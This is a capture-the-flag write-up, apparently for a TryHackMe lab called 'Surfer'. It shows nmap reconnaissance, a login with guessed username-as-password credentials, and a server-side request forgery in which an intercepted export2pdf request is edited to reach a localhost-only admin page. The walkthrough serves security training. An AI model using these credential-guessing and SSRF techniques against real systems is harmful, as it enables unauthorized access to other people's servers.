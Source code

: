 # Surfer

# Enumeration/Reconnaissance

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 5000 -Pn 10.10.47.153 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 02:58 EDT
Nmap scan report for 10.10.47.153
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -A -Pn -p 22,80 10.10.47.153  
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 02:58 EDT
Nmap scan report for 10.10.47.153
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 802906b2cf5a1bea661e60f52a22c6f7 (RSA)
|   256 ddd0bc43a26ab69d603cf663c0b222af (ECDSA)
|_  256 bd2f0118cbd5bc76f6506b4200eb9bff (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: 24X7 System+
|_Requested resource was /login.php
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   201.14 ms 10.8.0.1
2   183.77 ms 10.10.47.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```

# Vulnerabilities Assessment

`Curl` to the path `/backup/chat.txt` which we scanned by `nmap` in the previous step

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ curl http://10.10.47.153/backup/chat.txt

Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

As Kate said “`stop using your username as password`" → means the password is the username. (`root`:`root` or `admin`:`admin`) → Go to the `login.php` page and try out!

![Untitled](Surfer%20images/Untitled.png)

![Untitled](Surfer%20images/Untitled%201.png)

OK! So the hint was right! We are the admin for now.

# Exploit

If you scroll down a little bit, you would find out this tab

![Untitled](Surfer%20images/Untitled%202.png)

Click on the link `/internal/admin.php` or try other ways to directly route to it just return a message:

![Untitled](Surfer%20images/Untitled%203.png)

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ curl http://10.10.47.153/internal/admin.php
This page can only be accessed locally.
```

![Untitled](Surfer%20images/Untitled%204.png)

Let’s go back to the `chat.txt` of Kate and the Admin:

```tsx
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format
```

The Admin had set up the new `export2pdf` tool → Try it out!

![Untitled](Surfer%20images/Untitled%205.png)

Before clicking on the `Export` button, turn on the ************************************************BurpSuite’s Interception************************************************ → Click the button to export → The ******************BurpSuite****************** proxy will intercept the request like this:

```
POST /export2pdf.php HTTP/1.1
Host: 10.10.47.153
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://10.10.47.153
Connection: close
Referer: http://10.10.47.153/index.php
Cookie: PHPSESSID=c823dd6309d9c3263b84f625ea9ddc81
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```

Use `URL decode` to decode the `URL` line → `http://127.0.0.1/server-info.php`

The `127.0.0.1` is the `localhost` IP Address → Modify the path to `/internal/admin.php`

```
url=http%3A%2F%2F127.0.0.1%2Finternal%2Fadmin.php
```

Click `Forward` and view the response on browser

![Untitled](Surfer%20images/Untitled%206.png)